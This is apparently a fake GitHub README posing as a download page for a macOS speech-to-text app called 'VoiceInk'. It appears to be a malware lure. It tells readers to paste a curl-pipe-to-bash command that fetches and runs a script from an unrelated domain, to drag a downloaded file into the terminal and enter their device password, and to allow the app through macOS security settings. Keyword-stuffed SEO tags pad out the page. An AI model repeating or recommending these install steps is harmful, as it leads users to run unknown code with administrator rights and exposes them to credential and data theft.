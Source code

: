 <p align="center">
  <img src="https://i.ibb.co/v6ghs2RJ/1749570011-vyayv.webp" width="350" alt="VoiceInk macOS Banner" />
</p>

<h1 align="center">VoiceInk for macOS</h1>

<p align="center">
  🎙️ Instantly convert speech to text with high accuracy. VoiceInk captures your thoughts, ideas, and notes in real-time — directly on your Mac.  
  <br><br>
  ✅ Works Offline  
  ✅ Apple Silicon Native  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/286" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20VOICEINK%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download VoiceInk for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/gLtwCybb/1749569974-1.webp" alt="VoiceInk App Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is VoiceInk for macOS?

**VoiceInk** is a smart speech-to-text transcription app designed to convert your voice into clean, structured text. Whether you're dictating ideas, creating notes, or transcribing meetings, VoiceInk captures everything in real-time.

It runs entirely offline, ensuring privacy and full control over your recordings. VoiceInk is ideal for writers, students, and anyone who thinks faster than they type.

---

## ✅ Why Choose VoiceInk?

- 🎤 **Accurate Speech Recognition**  
- ✍️ **Real-Time Dictation Mode**  
- 📁 **Organize Transcripts by Topic**  
- 🔒 **Works 100% Offline – No Uploads**  
- 🧠 **Adaptive Voice Model Learning**  
- 🍎 **Apple Silicon Native Support**  
- 🎧 **Supports External Microphones**  
- 💬 **Multi-language Ready**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/1Gnnm4sY/1749569975-2.webp" alt="Live Transcription Interface" />
</p>

---

## 🚀 Key Features

- Speech-to-text transcription  
- Real-time dictation with editing  
- Voice note tagging and folders  
- Offline operation with no tracking  
- Language model personalization  
- Apple M1/M2/M3 optimized  
- Minimal interface, focused UX  
- Export to TXT, PDF, or Markdown

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow VoiceInk manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Feature-Speech+to+Text+Offline-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ VoiceInk – Speak. Capture. Write.

Thanks for using **VoiceInk for macOS**.  
Turn thoughts into text. Instantly.

---

## 🧭 Usage Context

VoiceInk is designed for writers, students, and productivity-focused users.  
All processing is done locally — no cloud services or audio uploads.

---

## 🔍 Tags

```text
voiceink mac download, speech to text offline macos, apple silicon dictation app, voice notes transcriber for mac, accurate audio to text app macbook, offline transcription tool m1 m2 m3, hands-free writing software for mac, speech capture for writers mac, mac dictation with export formats, convert voice to markdown macos, privacy focused speech app mac, voiceink full version macbook, mac os x real-time transcription, audio dictation notetaker mac, transcription app without internet mac
